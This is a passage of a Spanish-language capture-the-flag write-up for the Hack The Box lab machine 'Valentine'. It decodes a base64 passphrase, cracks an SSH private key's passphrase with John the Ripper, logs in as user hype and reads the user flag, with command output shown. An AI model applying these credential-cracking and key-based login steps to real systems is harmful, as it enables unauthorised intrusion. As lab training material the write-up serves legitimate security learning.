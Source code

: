 Si decodificamos estos datos que se encuentran en base64 obtenemos una contraseña en texto claro

```console
echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d; echo
```

```
heartbleedbelievethehype
```

si la probamos con jhon, confirmamos que ya tenemos la contraseña de la id_rsa

```console
john -w:dictionary hash
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 8 needed for performance.
heartbleedbelievethehype (content/id_rsa)
1g 0:00:00:00 DONE (2022-08-30 01:13) 50.00g/s 50.00p/s 50.00c/s 50.00C/s heartbleedbelievethehype
Session completed
```

Por tanto utilizamos esa contraseña para autentificarnos

```console
ssh -i id_rsa hype@10.10.10.79
```

```
The authenticity of host '10.10.10.79 (10.10.10.79)' can't be established.
ECDSA key fingerprint is SHA256:lqH8pv30qdlekhX8RTgJTq79ljYnL2cXflNTYu8LS5w.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.79' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ 
```

y ahí se puede ver la flag de usuario

```console
hype@Valentine:~/Desktop$ cat Desktop/user.txt
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>